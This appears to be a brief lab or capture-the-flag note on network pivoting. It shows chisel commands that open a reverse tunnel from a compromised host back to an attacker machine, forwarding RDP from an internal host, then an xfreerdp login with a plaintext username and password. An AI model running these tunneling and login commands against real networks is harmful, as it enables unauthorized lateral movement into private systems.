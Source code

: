 # Download  
https://github.com/jpillora/chisel  

## Topology  
10.10.14.22 <--> 10.129.247.87 <--> 172.16.5.19

## Server Step 1  
```sudo chisel server -p 80 reverse ```  

## Client  
```chisel client 10.10.14.22:80 R:3389:172.16.5.19:3389```  

## RDP
```xfreerdp3 /v:localhost /u:victor /p:'pass@123' ```  

## Server Snapshot  
<img width="1345" height="122" alt="image" src="https://github.com/user-attachments/assets/e3399374-3cce-45aa-86fe-72bdb8df437d" />  
<img width="1344" height="157" alt="image" src="https://github.com/user-attachments/assets/bcdd87ac-a688-4f0b-a9b3-989c8d5ed573" />  

## Client Snapshot  
<img width="1333" height="96" alt="image" src="https://github.com/user-attachments/assets/5296f555-764c-477d-9fce-748e122064d4" />
